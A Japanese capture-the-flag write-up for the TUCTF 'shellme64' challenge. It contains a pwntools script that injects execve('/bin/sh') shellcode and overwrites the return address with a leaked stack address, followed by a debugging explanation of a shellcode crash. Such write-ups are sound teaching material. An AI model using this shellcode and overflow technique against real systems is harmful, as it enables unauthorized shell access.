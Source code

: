 # TUCTF shellme64 pwn

## 問題
* binary
```
$ file shellme64 
shellme64: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=83254c97da6347cf9cb96f7fe5fad3a28968a719, for GNU/Linux 3.2.0, not stripped
```
* 実行時にrspのアドレスが出力されている

## 解法

rspに入っているアドレスがわかっているのでリターンアドレスをスタックの先頭アドレスに書き換えてシェルコードを実行させる。

```python
from pwn import *

io = process("./shellme64")
# io = remote("chal.tuctf.com", 30507)

# execve("/bin/sh")
# 命令\x57(push rdi)を削除している
shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x48\x89\xe6\xb0\x3b\x0f\x05"

buf = io.read()
addr_rsp =  buf[-17:-3]
print 'rsp address: {}'.format(addr_rsp)
addr_rsp = int(addr_rsp, 16)

exp = ""
exp += shellcode
exp += "A" * 100
exp = exp[:40]
exp += p64(addr_rsp)

io.send(exp)
io.interactive()

```

## 困った点

[シェルコード](http://shell-storm.org/shellcode/files/shellcode-603.php)を実行させようとすると、`push rdi`の命令でSEGVで死んだ。
コンテスト中はとりあえずその命令を削除することでシェルを起動させることができたが、原因はつかめなかった。

### SEGVの原因

`push rdi`直前の命令ででスタック上のシェルコードの最後の数バイトが上書きされてしまっていた。


SEGV直前のスタックの状態は下のようなイメージ. この次の`push rax`が実行されると送り込んだシェルコードが
書き換えられてしまう。

|  stack |
|--------|
|push rax|<- rip
|push rdi|
|mov rsi, rsp|
|mov al, 0x3b|
|syscall|
|000000000| <- rsp
|"/bin/sh"|
